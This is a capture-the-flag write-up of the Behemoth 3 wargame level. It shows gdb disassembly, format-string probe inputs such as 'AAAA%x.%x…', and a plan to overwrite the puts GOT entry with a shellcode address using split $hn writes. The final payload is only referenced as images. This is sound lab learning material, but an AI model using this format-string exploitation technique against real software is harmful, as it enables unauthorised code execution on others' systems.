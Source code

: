 #Behemoth 3

learned skills: write to arbitrary memory address, %n - write the numbers of chracter written, writing the value separately using $hn 

This challenge helped me to learn a lot about different ways to control format string vulnerability.

When I frist examined the binary, I thought of buffer overflow (well hopefully but least likely...)

```
behemoth3@melinda:/behemoth$ gdb behemoth3 -q
Reading symbols from behemoth3...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847d <+0>:	push   %ebp
   0x0804847e <+1>:	mov    %esp,%ebp
   0x08048480 <+3>:	and    $0xfffffff0,%esp
   0x08048483 <+6>:	sub    $0xe0,%esp
   0x08048489 <+12>:	movl   $0x8048570,(%esp)
   0x08048490 <+19>:	call   0x8048330 <printf@plt>
   0x08048495 <+24>:	mov    0x80497a4,%eax
   0x0804849a <+29>:	mov    %eax,0x8(%esp)
   0x0804849e <+33>:	movl   $0xc8,0x4(%esp)
   0x080484a6 <+41>:	lea    0x18(%esp),%eax
   0x080484aa <+45>:	mov    %eax,(%esp)
   0x080484ad <+48>:	call   0x8048340 <fgets@plt>
   0x080484b2 <+53>:	movl   $0x8048584,(%esp)
   0x080484b9 <+60>:	call   0x8048330 <printf@plt>
   0x080484be <+65>:	lea    0x18(%esp),%eax
   0x080484c2 <+69>:	mov    %eax,(%esp)
   0x080484c5 <+72>:	call   0x8048330 <printf@plt>
   0x080484ca <+77>:	movl   $0x804858e,(%esp)
   0x080484d1 <+84>:	call   0x8048350 <puts@plt>
   0x080484d6 <+89>:	mov    $0x0,%eax
   0x080484db <+94>:	leave
   0x080484dc <+95>:	ret
End of assembler dump.
(gdb)
```
well.... fgets.... No buffer overflow :( 
There is printf. Maybe this is format vuln. Lets test it .

```
(gdb) r
Starting program: /games/behemoth/behemoth3
Identify yourself: %x.%x.%x.%x
Welcome, c8.f7fcac20.0.0

aaaand goodbye again.
[Inferior 1 (process 6538) exited normally]
(gdb)
```

Oh dear printf! Now lets figure out where our buffer is.

```
(gdb) r
Starting program: /games/behemoth/behemoth3
Identify yourself: AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x
Welcome, AAAAc8.f7fcac20.0.0.f7ffd000.41414141.252e7825.78252e78.2e78252e

aaaand goodbye again.
[Inferior 1 (process 4016) exited normally]
(gdb)	
```

So it was located at 6th position. 

After that I checkd where the buffer was located after fgets

```
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847d <+0>:	push   %ebp
   0x0804847e <+1>:	mov    %esp,%ebp
   0x08048480 <+3>:	and    $0xfffffff0,%esp
   0x08048483 <+6>:	sub    $0xe0,%esp
   0x08048489 <+12>:	movl   $0x8048570,(%esp)
   0x08048490 <+19>:	call   0x8048330 <printf@plt>
   0x08048495 <+24>:	mov    0x80497a4,%eax
   0x0804849a <+29>:	mov    %eax,0x8(%esp)
   0x0804849e <+33>:	movl   $0xc8,0x4(%esp)
   0x080484a6 <+41>:	lea    0x18(%esp),%eax
   0x080484aa <+45>:	mov    %eax,(%esp)
   0x080484ad <+48>:	call   0x8048340 <fgets@plt>
   0x080484b2 <+53>:	movl   $0x8048584,(%esp)
   0x080484b9 <+60>:	call   0x8048330 <printf@plt>
   0x080484be <+65>:	lea    0x18(%esp),%eax
   0x080484c2 <+69>:	mov    %eax,(%esp)
   0x080484c5 <+72>:	call   0x8048330 <printf@plt>
   0x080484ca <+77>:	movl   $0x804858e,(%esp)
   0x080484d1 <+84>:	call   0x8048350 <puts@plt>
   0x080484d6 <+89>:	mov    $0x0,%eax
   0x080484db <+94>:	leave
   0x080484dc <+95>:	ret
End of assembler dump.
(gdb) b*0x080484b2
Breakpoint 1 at 0x80484b2
(gdb) r
Starting program: /games/behemoth/behemoth3
Identify yourself: AAAA%x.%x.%x.%x.%x.%x

Breakpoint 1, 0x080484b2 in main ()
(gdb) x /40wx $esp
0xffffd5e0:	0xffffd5f8	0x000000c8	0xf7fcac20	0x00000000
0xffffd5f0:	0x00000000	0xf7ffd000	0x41414141	0x252e7825
0xffffd600:	0x78252e78	0x2e78252e	0x252e7825	0x08000a78
0xffffd610:	0xffffd678	0xf7ffda94	0x00000000	0xf7fce2e8
0xffffd620:	0x00000001	0x00000000	0x00000001	0xf7ffd938
0xffffd630:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd640:	0x00000003	0x00000009	0x04c0003f	0x00000000
0xffffd650:	0xffffd704	0xffffd678	0xffffd670	0x08048262
0xffffd660:	0xf7ffd938	0x00000000	0x000000c2	0xf7eb75b6
0xffffd670:	0xffffffff	0xffffd69e	0xf7e2fbf8	0xf7e55f53
(gdb) p 0xffffd5f0+8
$3 = 4294956536
```
In hex, 4294956356 = 0xffffd5fc 

(This was not necessary but I just wanted to see where it was :) )

At this point, I realized that I could overwrite GOT for put and point that to the shellcode.
But there was a problem. Since it was DWORD, I could not write it all at the same time. So I had to spearte into two parts:

First write two lower bytes and then two higher bytes

Here is the final payload:

![Behemoth 3](Photos/Behemoth3.png) 

* To find the address to jump to, I used the paylaod by just writing 6 and 7 characters respecitvely and chose middle of A (junk)
* To write two bytes at a time, I used $hn for short write and simple math (literally typing 0x + last twobytes into python shell and same for higher bytes) 

![Behemoth 3](Photos/Behemoth3-1.png) 

From this point forward, it was trial and error. Even though shell was executed, it seems like it was either not visible or some other problem. So I had to repeat the process until it gave me the shell.


